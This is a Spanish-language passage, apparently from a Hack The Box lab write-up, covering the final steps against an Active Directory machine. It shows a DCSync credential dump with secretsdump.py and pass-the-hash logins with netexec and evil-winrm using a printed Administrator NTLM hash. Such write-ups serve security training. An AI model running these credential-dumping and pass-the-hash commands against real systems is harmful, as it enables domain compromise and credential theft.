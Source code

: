 Se realizó el ataque de **DCSync Attack** y obtuvimos todos los hashes NTLM, incluídos los del usuario Administrator.

```bash
secretsdump.py -just-dc-ntlm administrator.htb/ethan@10.10.11.42
```

<figure><img src="../../../.gitbook/assets/2546_vmware_00at5y545v.png" alt=""><figcaption></figcaption></figure>

Verficaremos que el hash NTLM es válido y procederemos a conectarnos a través de **evil-winrm** con el usuario **administrator@administrator.htb** y verificar la flag de **root.txt**.

```bash
netexec winrm 10.10.11.42 -u 'Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'

evil-winrm -i 10.10.11.42 -u 'Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```

<figure><img src="../../../.gitbook/assets/2547_vmware_rtunSQdrZT.png" alt=""><figcaption></figcaption></figure>
